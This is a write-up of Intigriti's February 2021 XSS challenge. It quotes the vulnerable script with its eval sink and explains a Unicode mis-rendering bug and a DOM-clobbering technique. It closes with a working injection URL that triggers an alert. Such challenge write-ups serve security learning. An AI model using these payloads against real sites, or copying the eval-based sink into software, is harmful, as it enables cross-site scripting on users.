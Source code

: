 ```yaml
---
weight: 4
title: "Intigriti's February XSS Challenge Writeup"
date: 2021-02-20T01:00:00+04:00
lastmod: 2021-02-20T01:00:00+04:00
draft: false
author: "Davwwwx"
authorLink: "/about"
description: ""
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["challenge", "xss", "intigriti", "unicode", "eval", "DOM clobbering"]
categories: ["Challenges"]

lightgallery: true
toc:
  enable: true
---
```


This month’s challenge, made by [Holme](https://twitter.com/holme_sec), was a little bit different than the ones I have previously solved as it had a server-side processing issue.
<!--more-->

Vulnerable page - [https://challenge-0221.intigriti.io/](https://challenge-0221.intigriti.io/)\
Vulnerable script - [https://challenge-0221.intigriti.io/script.js](https://challenge-0221.intigriti.io/script.js)


### Issue 1 - Unicode characters improper processing

Digging into the [embedded script](https://challenge-0221.intigriti.io/script.js) (see the code below) we can see there is no direct source that could reach the only dangerous sink (`eval`) at line **57**:

```javascript
function startGrade() {
  var text = document.getElementById("assignmentText").value;
  checkLength(text);
  result = window.result || {
    message: "Your submission is too short.",
    error: 1,
  }; //If the result object hasn't been defined yet, the submission must be too short
  if (result.error) {
    endGrade();
  } else {
    getQAnswer();
    if (!passQuiz()) {
      result.message = "We don't allow robots at the Unicodeversity (yet)!";
      result.error = 1;
    } else {
      result.grade = "ABCDEF"[Math.floor(Math.random() * 6)]; //Don't tell the students we don't actually read their submissions
    }
    endGrade();
  }
}

function endGrade() {
  document.getElementById("message").innerText = result.message;
  if (result.grade) {
    document.getElementById(
      "grade"
    ).innerText = `You got a(n) ${result.grade}!`;
  }
  document.getElementById("share").style.visibility = "initial";
  document.getElementById(
    "share-link"
  ).href = `https://challenge-0221.intigriti.io/?assignmentTitle=${
    document.getElementById("assignmentTitle").value
  }&assignmentText=${document.getElementById("assignmentText").value}`;
  delete result;
}

function checkLength(text) {
  if (text.length > 50) {
    result = { message: "Thanks for your submission!" };
  }
}

function getQAnswer() {
  var answer = document.getElementById("answer").value;
  if (/^[0-9]+$/.test(answer)) {
    if (typeof result !== "undefined") {
      result.questionAnswer = { value: answer };
    } else {
      result = { questionAnswer: { value: answer } };
    }
  }
}

function passQuiz() {
  if (typeof result.questionAnswer !== "undefined") {
    return eval(result.questionAnswer.value + " == " + question);
  }
  return false;
}

var question = `${Math.floor(Math.random() * 10) + 1} + ${
  Math.floor(Math.random() * 10) + 1
}`;

document.getElementById("question").innerText = `${question} = ?`;

document.getElementById("submit").addEventListener("click", startGrade);

const urlParams = new URLSearchParams(location.search);
if (urlParams.has("autosubmit")) {
  startGrade();
}
```

It is a common behavior for web apps to reflect an input's name or id if provided via request body or query string, so does this app (escaping, unfortunately).
![Escaped reflected parameter](escapedrefparam.png "Escaped reflected parameter")

But if we try a Unicode sequence (բարև), we can see it doesn't get processed normally.
![Unicode reflected parameter](unicoderefparam.png "Unicode reflected parameter")

The first part of a Unicode character byte pair gets rendered and the second pair is getting reflected as is,
for example, in the case of letter `բ` (**U+0562**), **05** gets rendered and **62** is being returned.

### Issue 2 - DOM clobbering as a source to the dangerous sink

Now we can escape the reflection point with a doublequote using some character like `∀` (**U+2200**), but we cannot use event handlers because of CSP nor can construct an inline script element as we cannot guess a server-generated nonce value.
```CSP
script-src 'strict-dynamic' 'nonce-iR/JMMPv7suDLRND7rsPGvDzJxU=' 'unsafe-eval' http: https:;object-src 'none';base-uri 'none';
```

As said above, looking for DOM vulnerabilities, the only usable sink is `eval` (at line **56**  in the original script) in `passQuiz` function.
```Javascript
function passQuiz() {
  if (typeof result.questionAnswer !== "undefined") {
    return eval(result.questionAnswer.value + " == " + question);
  }
  return false;
}
```

And to reach it we should be able to control either `result.questionAnswer.value` or `question` variable.\
No source reaches `question`, but in line **4** we can see that result can be taken from the `window` object.
```Javascript
function startGrade() {
  var text = document.getElementById("assignmentText").value;
  checkLength(text);
  result = window.result || {
    message: "Your submission is too short.",
    error: 1,
```

So to set its value we should abuse [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering). And the rendered payload should look something like this
```html
<elem id="result">
<elem id="result" name="questionAnswer" value="alert(origin)//">
```

Looking through [MDN documentation](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes), the only usable element that has `value` attribute is `<data>` as only its first two letters (**da**) can be embedded as a hexadecimal value to start a tag normally instead of a gibberish.

Finally we can construct our payload `?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit`

- `∀` (**U+2200**) to render a doublequote (**"**),
- `㸀` (**U+3E00**) to render a greater than sign (**>**),
- `㳚` (**U+3CDA**) to render a less than sign (**<**) and reflect **DA** characters to start the `<data>` tag,
- and `autosubmit` query parameter to execute `startGrade` function without user interaction (line **71**).

Which should result in something like this being injected into the page
```html
"00>00<data id=result>00<data id=result name=questionAnswer value=alert(origin)//
```

![Pop the alert](alert.png "Pop the alert")

The final URL - [https://challenge-0221.intigriti.io/?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit](https://challenge-0221.intigriti.io/?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit)
